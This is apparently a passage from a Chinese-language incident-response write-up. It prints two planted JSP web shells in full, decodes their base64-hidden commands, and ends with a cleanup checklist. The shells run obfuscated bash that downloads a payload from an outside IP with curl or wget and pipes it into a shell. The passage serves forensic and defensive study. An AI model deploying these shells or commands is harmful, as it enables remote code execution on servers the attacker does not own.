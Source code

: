 - ###

		1521942522.jsp

		->||<-<%@ page language="java" import="java.io.*" pageEncoding="UTF-8"%><%String path = request.getContextPath();String basePath = request.getScheme() + "://"+ request.getServerName() + ":" + request.getServerPort()+ path + "/";%><html><head><title>shell</title></head><body><%String cmds = "monitor.sh";try {Process process;process = Runtime.getRuntime().exec("bash -c {echo,Y3VybCAtcyBodHRwOi8vMTkyLjk5LjE0Mi4yMzU6ODIyMC9sb2dvMy5qcGcgfCBiYXNoIC1z}|{base64,-d}|{bash,-i}");InputStreamReader ir = new InputStreamReader(process.getInputStream());LineNumberReader input = new LineNumberReader(ir);String line;process.waitFor();while ((line = input.readLine()) != null){out.print(line);out.print("<br/>");}if(input!=null){input.close();}} catch (Exception e) {e.printStackTrace();}%></body></html>

		# 我来给他解密
		$ echo 'Y3VybCAtcyBodHRwOi8vMTkyLjk5LjE0Mi4yMzU6ODIyMC9sb2dvMy5qcGcgfCBiYXNoIC1z' | base64 -d
		curl -s http://192.99.142.235:8220/logo3.jpg | bash -s

- ###
		1521942547.jsp
		
		->||<-<%@ page language="java" import="java.io.*" pageEncoding="UTF-8"%><%String path = request.getContextPath();String basePath = request.getScheme() + "://"+ request.getServerName() + ":" + request.getServerPort()+ path + "/";%><html><head><title>shell</title></head><body><%String cmds = "monitor.sh";try {Process process;process = Runtime.getRuntime().exec("bash -c {echo,d2dldCAtcSBodHRwOi8vMTkyLjk5LjE0Mi4yMzU6ODIyMC9sb2dvNC5qcGcgLU8gLSB8IHNo}|{base64,-d}|{bash,-i}");InputStreamReader ir = new InputStreamReader(process.getInputStream());LineNumberReader input = new LineNumberReader(ir);String line;process.waitFor();while ((line = input.readLine()) != null){out.print(line);out.print("<br/>");}if(input!=null){input.close();}} catch (Exception e) {e.printStackTrace();}%></body></html>

		# 我来给他解密
		$ echo 'd2dldCAtcSBodHRwOi8vMTkyLjk5LjE0Mi4yMzU6ODIyMC9sb2dvNC5qcGcgLU8gLSB8IHNo' | base64 -d
		wget -q http://192.99.142.235:8220/logo4.jpg -O - | sh

	**写到这个事竟捯饬清楚了**

- 接下来是善后处理工作
	1. 更新所有用户密码，密钥
	2. 跟新应用中配置的密码，密钥
	3. 检查用户：

			检查是否产生了新用户，和UID、GID是0的用户
			# grep :0: /etc/passwd
			查看文件修改日期
			# ls -l /etc/passwd
			查看是否存在特权用户
			# awk -F: '$3==0 {print $1}' /etc/passwd
			查看是否存在空口令帐户
			# awk -F: 'length($2)==0 {print $1}' /etc/shadow
	4. 检查sshd配置
